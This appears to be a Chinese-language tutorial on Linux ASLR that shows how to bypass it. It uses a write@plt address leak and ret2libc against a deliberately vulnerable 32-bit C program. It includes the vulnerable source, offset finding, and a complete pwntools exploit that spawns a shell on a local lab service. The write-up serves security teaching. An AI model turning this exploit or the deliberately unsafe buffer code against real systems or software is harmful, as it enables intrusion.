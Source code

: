 ### 1.1  Linux下的ASLR内存保护机制

#### 1.1.1  Linux下的ASLR工作原理

工作原理与window下的aslr类似

 ![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142730266-504241689.png)

#### 1.1.2 Linux下利用内存地址泄露绕过ASLR

##### ⑴. 原理分析：

那么如何解决地址随机化的问题呢？

思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。

首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

 ![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142755931-669070785.png)

 ![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142817936-96151926.png)

我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt  ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢?  这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

##### ⑵．环境准备：

i．漏洞代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void flow(){
  char buf[128];
  read(STDIN_FILENO,buf,256);
}

int main(){
  flow();
  char a[]="hello";
  write(STDOUT_FILENO,a,strlen(a));
  return 0;
}

编译指令：
gcc -fno-stack-protector -g -m32 -o vuln vuln.c
```

ii．测试环境：

测试系统：Ubuntu 16.04

辅助插件：peda

系统开启aslr：

![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142843753-614701930.png) 

##### ⑶．测试分析：

i．存在漏洞的函数flow返回地址：

反汇编主函数：

![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142907399-477699356.png) 

漏洞函数位置：0x0804846b。

 

ii．确定偏移量：

利用pattern.py脚本实现(可以在GitHub上下到)：

生成150字节的字符串

![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142930272-2093926147.png) 

在调试器运行程序：

 ![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613142951734-1054619155.png)

返回地址被覆盖为0x37654136： 

确定偏移：

![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613143016271-581328692.png) 

偏移量为140字节。

##### ⑷．攻击过程：

i．exp脚本：

```py
\#!/usr/bin/env python

from pwn import *

 

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('/home/zhang/pass_NX/vuln')

 
p = remote('127.0.0.1', 10003)

 
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x804846b
print 'vulfun= ' + hex(vulfun_addr)

 
“””plt_write是主程序中write函数的地址，也是write@plt()函数的地址，后面是write函数的参数，将got表中的write()函数的真实地址写入到stdout。”””
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
 

print "\n###sending payload1 ...###"
p.send(payload1)


print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

 
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

 
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 
print "\n###sending payload2 ...###"
p.send(payload2)
p.interactive()
```



ii. 运行脚本，攻击成功：

![img](Linux%E4%B8%8B%E7%9A%84ASLR%EF%BC%88PIE%EF%BC%89%E5%86%85%E5%AD%98%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6.assets/1206693-20180613143050665-183788241.png)